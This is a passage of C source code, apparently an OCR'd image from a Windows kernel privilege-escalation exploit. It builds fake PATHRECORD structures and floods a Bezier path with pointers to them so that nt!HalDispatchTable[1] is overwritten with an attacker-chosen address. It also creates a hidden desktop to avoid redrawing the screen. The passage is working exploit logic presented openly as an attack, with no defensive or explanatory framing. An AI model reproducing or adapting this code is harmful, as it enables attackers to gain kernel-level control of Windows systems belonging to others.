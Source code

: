         // This page is not available, try the next candidate.
        if (!*++DispatchRedirect) {
            LogMessage(L_ERROR, "No redirect candidates left, sorry!");
            return 1;
        }
    }

    LogMessage(L_INFO, "Success, ExploitRecordExit () %#0x", *DispatchRedirect);

    // This PATHRECORD must terminate the list and recover.
    ExploitRecordExit           = (PPATHRECORD) *DispatchRedirect;
    ExploitRecordExit-&gt;next     = NULL;
    ExploitRecordExit-&gt;prev     = NULL;
    ExploitRecordExit-&gt;flags    = PD_BEGINSUBPATH;
    ExploitRecordExit-&gt;count    = 0;

    LogMessage(L_INFO, "  -&gt;next  @ %p", ExploitRecordExit-&gt;next);
    LogMessage(L_INFO, "  -&gt;prev  @ %p", ExploitRecordExit-&gt;prev);
    LogMessage(L_INFO, "  -&gt;flags @ %u", ExploitRecordExit-&gt;flags);

    // This is the second stage PATHRECORD, which causes a fresh PATHRECORD
    // allocated from newpathrec to nt!HalDispatchTable. The Next pointer will
    // be copied over to the new record. Therefore, we get
    //
    // nt!HalDispatchTable[1] = &amp;ExploitRecordExit.
    //
    // So we make &amp;ExploitRecordExit a valid sequence of instuctions here.
    LogMessage(L_INFO, "ExploitRecord () %#0x", &amp;ExploitRecord);

    ExploitRecord.next          = (PPATHRECORD) *DispatchRedirect;
    ExploitRecord.prev          = (PPATHRECORD) &amp;HalDispatchTable[1];
    ExploitRecord.flags         = PD_BEZIERS | PD_BEGINSUBPATH;
    ExploitRecord.count         = 4;

    LogMessage(L_INFO, "  -&gt;next  @ %p", ExploitRecord.next);
    LogMessage(L_INFO, "  -&gt;prev  @ %p", ExploitRecord.prev);
    LogMessage(L_INFO, "  -&gt;flags @ %u", ExploitRecord.flags);

    LogMessage(L_INFO, "Creating complex bezier path with %x", (ULONG)(PathRecord) &gt;&gt; 4);

    // Generate a large number of Belier Curves made up of pointers to our
    // PATHRECORD object.
    for (PointNum = 0; PointNum &lt; MAX_POLYPOINTS; PointNum++) {
        Points[PointNum].x      = (ULONG)(PathRecord) &gt;&gt; 4;
        Points[PointNum].y      = (ULONG)(PathRecord) &gt;&gt; 4;
        PointTypes[PointNum]    = PT_BEZIERTO;
    }

    // Switch to a dedicated desktop so we don't spam the visible desktop with
    // our Lines (Not required, just stops the screen from redrawing slowly).
    SetThreadDesktop(CreateDesktop("DontPanic",
                                   NULL,
                                   NULL,
                                   0,
                                   GENERIC_ALL,
                                   NULL));
